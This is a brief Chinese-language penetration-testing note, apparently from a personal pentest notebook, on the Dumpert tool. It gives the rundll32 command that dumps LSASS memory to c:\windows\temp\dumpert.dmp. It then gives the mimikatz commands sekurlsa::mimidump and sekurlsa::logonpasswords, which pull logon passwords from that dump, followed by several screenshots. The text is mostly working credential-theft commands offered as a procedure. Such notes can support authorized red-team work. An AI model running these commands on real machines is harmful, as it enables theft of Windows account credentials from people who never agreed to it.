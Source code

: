 	https://github.com/outflanknl/Dumpert
	有三种，分别是dll，可执行文件和cs的Aggressor插件，这里测试下dll和exe
	DLL的执行方式是
	rundll32.exe C:\Outflank-Dumpert.dll,Dump
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/653.png)

	文件保存在c:\windows\temp\dumpert.dmp
	用mimikatz
	>sekurlsa::mimidump c:\windows\temp\dumpert.dmp
	>sekurlsa::logonpasswords
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/654.png)

	可执行文件就直接执行就可以了
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/655.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/656.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/657.png)